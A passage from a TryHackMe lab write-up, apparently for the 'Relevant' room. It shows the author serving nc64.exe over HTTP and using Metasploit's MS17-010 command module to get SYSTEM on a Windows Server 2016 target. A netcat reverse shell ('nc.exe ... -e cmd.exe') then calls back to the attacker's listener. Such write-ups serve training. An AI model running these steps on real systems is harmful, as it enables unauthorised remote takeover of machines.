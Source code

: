 Boom we can view it downloaded the binary from our machine.

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.102.225 - - [17/Aug/2021 12:05:50] "GET /nc64.exe HTTP/1.1" 200 -
10.10.102.225 - - [17/Aug/2021 12:05:58] "GET /nc64.exe HTTP/1.1" 200 -
```

Now we need to spawn a shell.

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.102.225:445     - Authenticating to 10.10.102.225 as user 'bill'...
[*] 10.10.102.225:445     - Target OS: Windows Server 2016 Standard Evaluation 14393
[*] 10.10.102.225:445     - Built a write-what-where primitive...
[+] 10.10.102.225:445     - Overwrite complete... SYSTEM session obtained!
[+] 10.10.102.225:445     - Service start timed out, OK if running a command or non-service executable...
[-] 10.10.102.225:445     - Unable to get handle: The server responded with error: STATUS_SHARING_VIOLATION (Command=45 WordCount=0)
[-] 10.10.102.225:445     - Command seems to still be executing. Try increasing RETRY and DELAY
[*] 10.10.102.225:445     - Getting the command output...
[*] 10.10.102.225:445     - Command finished with no output
[*] 10.10.102.225:445     - Executing cleanup...
[+] 10.10.102.225:445     - Cleanup was successful
[+] 10.10.102.225:445     - Command completed successfully!
[*] 10.10.102.225:445     - Output for "C:\nc.exe 10.9.11.106 135 -e cmd.exe":



[*] 10.10.102.225:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/smb/ms17_010_command) >

```

Boom we got it!

```windows
┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ sudo nc -lnvp 135                                                       1 ⨯
listening on [any] 135 ...
connect to [10.9.11.106] from (UNKNOWN) [10.10.102.225] 49872
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::f5be:a00e:dfd9:f169%4
   IPv4 Address. . . . . . . . . . . : 10.10.102.225
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

```